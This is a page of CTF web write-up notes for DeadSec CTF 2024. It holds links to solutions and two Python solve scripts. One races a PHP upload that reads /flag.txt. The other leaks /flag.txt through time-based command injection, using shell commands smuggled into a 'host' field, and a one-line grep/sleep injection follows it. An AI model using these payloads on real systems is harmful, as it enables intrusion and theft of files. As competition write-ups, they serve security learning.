 ```yaml
---
title: "web writeups"
date: "2023-05-13"
draft: false
---
```

colorful board
[first  blood](https://blog.exon.kr/posts/ctf/2024/deadsec/#colorful-board-en)
[anotherslove](https://yun.ng/c/ctf/2024-deadsec-ctf/web/colorful-board)
[mongodb objectid](https://github.com/andresriancho/mongo-objectid-predict?tab=readme-ov-file#mongo-objectid-introduction)

----
[buntime](https://yun.ng/c/ctf/2024-deadsec-ctf/web/buntime)

----
[ezstart](https://0x0oz.github.io/writeups/deadsec-ctf-2024#web)
```
import requests
from datetime import datetime
from concurrent.futures import ThreadPoolExecutor
import warnings
import re
warnings.simplefilter('ignore')

URL = "https://cc435f7badc1e1fda35d576b.deadsec.quest/"
# URL = "http://localhost:1338/"
COUNT = 5

def upload():
    files = {'files': ('foobar.php', b"<?php readfile('/flag.txt') ?>", 'image/jpeg')}
    return requests.post(URL + "upload.php", files=files, verify=False)


def read(timestamp):
    return requests.get(URL + f"tmp/foobar_{timestamp}.php", verify=False)

diff = 0
while True:

    timestamp = int(datetime.now().timestamp()) - diff
    with ThreadPoolExecutor(max_workers=5) as executor:
        r1 = executor.submit(upload)
        rs = [executor.submit(read, timestamp) for _ in range(COUNT)]
        executor.shutdown()


    res = [f.result() for f in rs]
    check = [r.text for r in res if r.status_code == 200]
    if len(check) > 0:
        print(check[0])
        break
    real = int(re.findall("foobar_(.+)\.php", r1.result().text)[0])
    diff = (timestamp - real + diff) // 2
    print(timestamp, real, diff)
```
---
[retrocalc](https://yun.ng/c/ctf/2024-deadsec-ctf/web/retrocalc)

----
using python [bing_revenge](https://blog.exon.kr/posts/ctf/2024/deadsec/#bing-revenge-en)
using bash
```py
import requests
import string

base_time = ''
flag= ''
url = 'http://localhost:7000/flag'
url = 'https://TEAM_URL.deadsec.quest/flag'

session = requests.Session()
response_baseline= session.post(url, data={'host':'127.0.0.1'}, headers={'Content-Type':'application/x-www-form-urlencoded'})
time_baseline = response_baseline.elapsed.total_seconds()

#after a few char leaks it was pretty obvious that it was a uuid4, so i adjusted the alphabet accordingly 
alphabet = string.digits + string.ascii_lowercase + '-' + '}' + '{' 

print(f"Time Baseline: {time_baseline}")

for i in range(len(flag)+1,50):
    print(f"[Round {i}]")
    for char in alphabet:
        payload = {'host':f'127.0.0.1;if [ $(cat /flag.txt|cut -c {i}) = {char} ]; then sleep 5; fi'}
        print(f"Current payload: {payload}")
        response = session.post(url, data=payload, headers={'Content-Type':'application/x-www-form-urlencoded'})
        if response.elapsed.total_seconds() > time_baseline + 4:
            flag += char
            print(f"[*] Found new char '{char}'. Flag: '{flag}'")
            break

```
`;grep "DEAD{x" /flag.txt || sleep 5`